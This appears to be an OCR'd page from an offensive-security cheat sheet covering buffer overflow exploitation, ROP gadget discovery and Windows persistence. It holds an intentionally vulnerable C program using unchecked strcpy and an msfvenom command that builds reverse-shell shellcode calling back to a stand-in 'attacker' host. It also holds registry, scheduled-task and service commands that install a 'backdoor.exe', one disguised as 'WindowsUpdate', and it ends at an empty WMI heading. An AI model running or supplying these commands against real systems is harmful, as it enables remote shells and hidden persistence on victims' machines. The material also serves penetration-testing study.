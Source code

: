 ## Memory Exploitation Techniques

### Buffer Overflow Exploitation
```c
// Simple buffer overflow example
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[100];
    strcpy(buffer, input);  // Vulnerable strcpy
    printf("Buffer: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if(argc > 1) {
        vulnerable_function(argv[1]);
    }
    return 0;
}
```

```bash
# Buffer overflow exploitation tools
gdb ./vulnerable_program                                 # GDB debugging
pattern_create.rb -l 150                                # Metasploit pattern creation
pattern_offset.rb -q 0x41414141                        # Find offset
msfvenom -p linux/x86/shell_reverse_tcp LHOST=attacker LPORT=4444 -f c  # Shellcode generation
```

**Documentation**: Basic buffer overflow exploitation demonstrating memory corruption vulnerabilities.
**Limitations**: Modern systems have protections (ASLR, DEP, Stack Canaries); requires specific vulnerable code.

### Return-Oriented Programming (ROP)
```bash
# ROP Gadget Discovery
ROPgadget --binary vulnerable_binary                    # Find ROP gadgets
ropper -f vulnerable_binary                             # Alternative ROP tool

# ROP Chain Construction
python ropchain_generator.py                            # Custom ROP chain script
```

**Documentation**: Advanced exploitation technique bypassing modern memory protections.
**Limitations**: Requires extensive knowledge of target binary; very complex to implement reliably.

## Persistence Mechanisms

### Windows Persistence Techniques
```bash
# Registry-based Persistence
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v backdoor /t REG_SZ /d "C:\backdoor.exe"

# Scheduled Task Persistence
schtasks /create /tn "WindowsUpdate" /tr "C:\backdoor.exe" /sc onlogon /ru System

# Service Persistence
sc create backdoor binpath= "C:\backdoor.exe" start= auto
net start backdoor

# WMI Event Subscription
```